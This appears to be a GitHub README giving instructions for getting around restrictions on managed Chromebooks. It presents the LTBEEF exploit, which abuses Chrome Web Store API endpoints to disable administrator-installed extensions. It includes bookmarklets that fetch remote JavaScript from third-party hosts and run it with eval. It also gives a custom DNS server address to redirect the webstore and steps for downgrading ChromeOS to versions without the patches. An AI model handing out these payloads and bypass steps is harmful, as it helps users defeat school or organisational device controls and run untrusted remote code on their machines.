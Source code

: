 # How to mod the chromebooks!
Making Chromebooks more vulnerable, one commit at a time.
Huge thanks to 3kh0 for alot of vulnerability's.
# LTBEEF
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.
Please Note: This exploit only works on versions below 106, and eariler versions of 102

The original site created for this exploit can be found at ltbeef.netlify.app

# Installation (LTBEEF)
There are several vesions of this exploit you can use, here are the 2 most common versions:

# Bookmarklets (LTBEEF)
To use a GUI, bookmark one of the below scripts:

Ingot
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
Compact Cow's UI
`javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});`
Compact Cow's UI (Dark)
`javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);`
Navigate to https://chrome.google.com/webstorex and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!

# DNS servers (LTBEEF)
By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.

First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers" image
Set every box there to the following ip:
`158.101.114.159` (Hosted by The Greatest Giant#0110)
Navigate to https://chrome.google.com/webstorex and click on that bookmark. Flip the switches on the extentions you want to disable.

# Downgrading
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.


# Requirements (DOWNGRADING)

A USB thumb drive with at least 4gb of storage, some board have small or bigger images, so have a beef usb, I recommend 16gb
A personal computer with access to downloading extentions
A brain
Setup

Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)
 2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board 3. Find and download the chrome version you want to your personal computer
# Instlation (DOWNGRADING)

Install Chromebook Recovery Utility onto your personal computer 
(found at https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en)
Open the extention, and click on the settings button in to top right hand corner, click "use local image"
Select the recovery image you downloaded from chrome100
Plug in the USB you wish to use, and follow the prompts on the screen
On your chromebook, press esc+reload+power and follow the prompts
On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen
Profit
